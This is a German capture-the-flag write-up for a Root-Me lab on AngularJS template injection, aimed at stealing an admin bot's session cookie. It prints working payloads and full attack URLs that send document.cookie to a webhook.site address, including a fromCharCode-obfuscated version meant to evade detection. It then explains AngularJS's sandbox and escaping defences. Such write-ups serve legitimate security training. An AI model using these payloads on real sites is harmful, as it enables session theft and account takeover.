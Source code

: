 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - IT-Security
tags:
  - Course/
---
```

# Root-Me XSS Dokumentation



## 🧩 Challenge-Ziel

**Ziel:** Die Session-Cookies des Admin-Bots stehlen, indem eine AngularJS Template Injection ausgenutzt wird, um den Admin auf eine eigene Webhook-URL umzuleiten.​

---

## ❌ Was nicht funktioniert hat

### 1. **Direkte Nutzung von `document.cookie`**

- **Versuch:** Einfache Payloads wie:

```Javascript
{{constructor.constructor('document.location="https://webhook.site/617db51b-f86d-4a0b-9234-193fadfd4ce4?c="+document.cookie')()}}
```

und umgewandelt in:

```
http://challenge01.root-me.org/web-client/ch35/index.php?name=%7B%7B%27a%27.constructor.prototype.charAt.constructor%28%27location%3D%22https%3A%2F%2Fwebhook.site%2F617db51b-f86d-4a0b-9234-193fadfd4ce4%3Fc%3D%22%2Bdocument.cookie%27%29%28%29%7D%7D
```

- **Ergebnis:** Keine Fehlermeldung, aber es wurden keine Cookies an den Webhook gesendet.
    
- **Grund:** Die Session-Cookies sind mit dem `HttpOnly`-Flag versehen, wodurch sie für JavaScript nicht zugänglich sind.​
    

### 2. **Selbsttest im eigenen Browser**

- **Versuch:** Den Payload im eigenen Browser ausführen.
    
- **Ergebnis:** Keine Cookies wurden an den Webhook gesendet.
- **Grund:** Moderne Browser schützen `HttpOnly`-Cookies vor JavaScript-Zugriff, selbst wenn der Payload korrekt ist.​

---

## ✅ Was funktioniert hat

### 1. **Verwendung von `fromCharCode` zur Umgehung von Filtern**

### ✨ Schritt 1: Deinen String in ASCII-Codes umwandeln

Der umzuwandelnde String:

`location.href='https://webhook.site/617db51b-f86d-4a0b-9234-193fadfd4ce4?c='+document.cookie`

---

Hier dein fertiges **fromCharCode()-Array**:
```javascript
108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,54,49,55,100,98,53,49,98,45,102,56,54,100,45,52,97,48,98,45,57,50,51,52,45,49,57,51,102,97,100,102,100,52,99,101,52,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101
```

---

### 📦  fertiger Payload:

```javascript
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,54,49,55,100,98,53,49,98,45,102,56,54,100,45,52,97,48,98,45,57,50,51,52,45,49,57,51,102,97,100,102,100,52,99,101,52,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))()}}
```

---

### ✅ Komplett fertige URL zum Absenden (für dein Contact-Formular):

**NICHT ENCODED:**

```
http://challenge01.root-me.org/web-client/ch35/?name={{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,54,49,55,100,98,53,49,98,45,102,56,54,100,45,52,97,48,98,45,57,50,51,52,45,49,57,51,102,97,100,102,100,52,99,101,52,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))()}}
```

---

### 📣 Wichtig:

✅  Webhook `https://webhook.site/617db51b-f86d-4a0b-9234-193fadfd4ce4` wird angesprochen.

✅ `?c=` wird ans Ende gehängt, damit dein Cookie auch ankommt.

✅ Verschleierung über `fromCharCode`, damit der Adminbot es schwerer hat, den Angriff zu erkennen.

### 🛡️ Sicherheitsmechanismen in AngularJS

**1. AngularJS-Sandbox**

AngularJS verwendet eine Sandbox, um den Zugriff auf gefährliche Objekte wie `window` oder `document` innerhalb von Template-Ausdrücken zu verhindern. Diese Sandbox prüft Ausdrücke und blockiert solche, die potenziell schädlich sein könnten. Allerdings wurden im Laufe der Zeit mehrere Methoden entdeckt, um diese Sandbox zu umgehen, insbesondere in älteren AngularJS-Versionen. ​[portswigger.net](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection?utm_source=chatgpt.com)

**2. Eingebaute XSS-Schutzmechanismen**

AngularJS bietet standardmäßig Schutzmechanismen gegen XSS-Angriffe. Dazu gehört die automatische Escapierung von Daten, die in Templates eingebunden werden. Allerdings können bestimmte Konstruktionen, wie z.B. die direkte Verwendung von `innerHTML` oder die Nutzung von `bypassSecurityTrustHtml()`, diese Schutzmechanismen umgehen. ​[pragmaticwebsecurity.com+1Angular+1](https://pragmaticwebsecurity.com/articles/spasecurity/angular-xss?utm_source=chatgpt.com)

### 🔍 Umgehung der Sicherheitsmechanismen

Um die Sicherheitsmechanismen zu umgehen, wurde eine Payload verwendet, die den `fromCharCode`-Ansatz nutzt, um den schädlichen Code zu verschleiern. Dies hilft, einfache Filter zu umgehen, die bestimmte Zeichen oder Wörter blockieren könnten.

### 📌 Fazit

Die Sicherheitsmechanismen in AngularJS, wie die Sandbox und automatische Escapierung, bieten einen gewissen Schutz gegen XSS-Angriffe. Allerdings können sie durch bestimmte Techniken umgangen werden, insbesondere in älteren Versionen oder bei unsachgemäßer Verwendung von AngularJS-Funktionen. Es ist daher wichtig, stets die neuesten Sicherheitspraktiken zu befolgen und Anwendungen regelmäßig auf Schwachstellen zu überprüfen.​

Wenn du weitere Informationen oder eine detailliertere Analyse benötigst, stehe ich gerne zur Verfügung.